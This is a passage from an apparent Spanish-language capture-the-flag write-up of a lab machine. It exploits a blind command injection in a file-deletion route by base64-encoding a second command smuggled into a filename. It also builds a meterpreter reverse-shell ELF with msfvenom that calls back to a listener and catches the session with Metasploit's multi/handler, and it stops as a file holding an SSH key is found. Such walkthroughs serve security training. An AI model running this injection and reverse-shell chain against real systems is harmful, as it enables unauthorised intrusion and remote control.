 ```
              $app->render('delete.twig.html', array('adminMessage' => $message  ));
            }
```

Pues la única comprobación que se realiza es que la decodificación BASE64 del parámetro pasado incluya el nombre del archivo existente. Si es así, se ejecuta el comando `rm` concatenando el *PATH* y el resultado de decodificar el nombre del archivo. **Inyección garantizada :)** . Sin embargo, no se muestra el resultado de la ejecución, así que la inyección se hace *a ciegas*.

## Meterpreter

Utilizando *msvenom* vamos a crear un ejecutable con *Meterpreter*. Lo subiremos a la página y trataremos de ejecutarlo.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.0.4 LPORT=10000 -f elf > meterpreter_reverse_tcp_172_16_0_4_10000.elf
```

Subimos también un *helloworld*, para poder borrarlo e inyectar el código que ejecute nuestro *meterpreter*.

El nombre del archivo asignado a *helloworld* es **59784639ec223.**
El nombre del archivo asignado a *meterpreter* es **59784659d583f.elf**

El comando completo que quiero que se ejecute es:

```
$ rm /home/malwareadm/samples/59784639ec223. & /home/malwareadm/samples/59784659d583f.elf
                              -----------------------------------------------------------
```

Si la inyección funciona, debería obtener una sesión en *meterpreter*. Inicio *metasploit* y hago uso del módulo *exploit/multi/handler* con *LHOST=172.16.0.4* y *LPORT=10000*.

![Metasploit multi handler]({{ site.url }}/assets/proteus_metasploit_handler.png "Metasploit multi handler")

Codificamos en BASE64 lo subrayado:

```
TEXTO:  59784639ec223. & /home/malwareadm/samples/59784659d583f.elf
BASE64: NTk3ODQ2MzllYzIyMy4gJiAvaG9tZS9tYWx3YXJlYWRtL3NhbXBsZXMvNTk3ODQ2NTlkNTgzZi5lbGYK
```

Iniciamos sesión con *malwareadm* y visitamos el enlace: `http://172.16.0.6/delete/NTk3ODQ2MzllYzIyMy4gJiAvaG9tZS9tYWx3YXJlYWRtL3NhbXBsZXMvNTk3ODQ2NTlkNTgzZi5lbGYK`

Y el resultado es...

![Sesión de Meterpreter]({{ site.url }}/assets/proteus_meterpreter_session.png "Sesión de Meterpreter")

## Clave SSH

Encontramos el siguiente archivo: */home/malwareadm/sites/proteus_site/PROTEUS_INSTALL*. Si miramos el contenido, aparece, entre otras, una clave para acceder vía SSH:
